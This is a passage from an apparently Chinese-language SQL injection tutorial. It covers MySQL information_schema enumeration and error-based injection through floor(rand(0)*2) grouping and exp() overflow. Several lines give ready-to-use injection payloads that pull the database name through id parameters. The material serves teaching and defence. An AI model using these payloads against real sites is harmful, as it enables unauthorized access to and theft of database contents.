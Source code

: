 #### 查询数据库名称

可使用  `select database()` 查询

查看数据库的元数据，  以MySQL为例

- • `information_schema`是mysql自带的信息数据库，  用于存储数据库元数据，  如数据库名、  表名、  列名等
- • `information_schema.tables` 包括数据库中的表，  指定  table_schema 的值为数据     库名称，  显示表的信息
- • `information_schema.columns` 包括数据库中的列，  指定  table_schema 的值为数据   库名、  table_name 的值为特定表名，  显示数据库的特定表的字段名

**可根据需要获取表数据**

## 02.有错误回显

### 基于错误注入

![image-20241128171711611](https://image.201068.xyz/assets/15_1.SQL注入及防范/image-20241128171711611.png)

#### 报错函数

- rand()随机函数，  返回[0,1)之间的随机数；  seed值固定为0后产生固定的伪随机数序列，  每次产生的随机数一样
- floor()返回小于等于括号内值的最大整数，  向下取整
- floor(rand(0)*2)结果是随机的0或1
- group by 用于分组，  读取表的数据，  将结果放到临时表中

```bash
select count(*),floor(rand(0)*2) as x from users group by x;
```



```bash
select count(*) as num,floor(rand(0)*2) as x from users group by x; 
```

第一次查询记录，  判断floor(rand(0)*2)是否在临时表，  调用产生0，  需要插入，  再次调用产生1，  插入到虚拟表中

第二次查询记录，  判断时调用值为1，  num加1，  不需要插入

第三次查询记录，  判断时调用值为0，  需要插入，  再次调用产生1，  插入到虚拟表中，  这时与表中已存在1冲突

```bash
?id=-1' union select 1,count(*),concat(0x7e,(select database()),0x7e,floor(rand(0)*2)) as a from information_schema.schemata group by a
```

exp(n)

返回e的n次方

MySQL能记录的double数值范围最大是709，  exp超过就会报错溢出错误

```bash
?id=1 'and exp(~(select * from(select database())x))%23
```

在  MySQL>5.5.53时，  不能返回查询结果

#### 字符串截取函数
